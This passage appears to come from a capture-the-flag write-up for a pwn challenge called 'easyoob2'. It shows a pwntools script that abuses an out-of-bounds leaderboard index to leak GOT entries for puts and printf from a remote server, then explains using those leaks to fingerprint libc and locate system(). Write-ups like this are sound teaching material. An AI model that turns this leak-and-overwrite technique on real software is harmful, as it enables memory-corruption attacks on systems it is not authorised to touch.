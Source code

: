 
I see the GOT above Leaderboard (the reloc stuff)! If we want to overwrite `strlen`, we are 0x404028 - 0x4040a0 = -120 bytes off. Since the entry struct defined earlier takes up 8 bytes each, our index in Leaderboard would be -15. `puts` would be -16, and `printf` would be -13.

Let's construct our exploit.

```py
from pwn import *
import sys


# --- setup ---
elf = context.binary = ELF('./easyoob2')
if sys.argv[1] == 'l':
    p = process()
    gdb.attach(p)
else:
    p = remote('challs.nusgreyhats.org', 10526)


# --- exploit ---
def leak(p, index):
    p.clean()
    p.sendline(f'1 {index}')
    p.recvuntil(f'{index}. ')
    a = p.recvline().strip()
    upper = hex(int(a[0]))
    a = int(bytes.decode(a[6:], 'utf-8'))
    if a > 0:
        lower = hex(a)
        addr = f'0x7f{upper[2:]}{lower[2:]}'
        print(f"positive {addr = }")
    else:
        lower = hex(0x800000000000 + a)
        addr = f'0x7f{upper[2:]}{lower[-8:]}'
        print(f"negative {addr = }")
    return int(addr, 16)


p.sendline(b'3 1')
puts_leak = leak(p, -16)
printf_leak = leak(p, -13)
```

One more thing I forgot to mention: the offsets of each function in libc differ from libc to libc version. This means that we need to find out what libc the remote is using in order to resolve an address to `system()`.

Since the libc base always ends with a bunch of zeroes, the last 3 nibbles of leaked addresses remain constant, and acts like a "fingerprint" to the libc.

In the exploit above, we leak puts and printf. With these 2 addresses, we are more than likely to be above to narrow down the possible remote libcs to a single libc. Use [this](http://libc.rip) to find the appropriate libc.
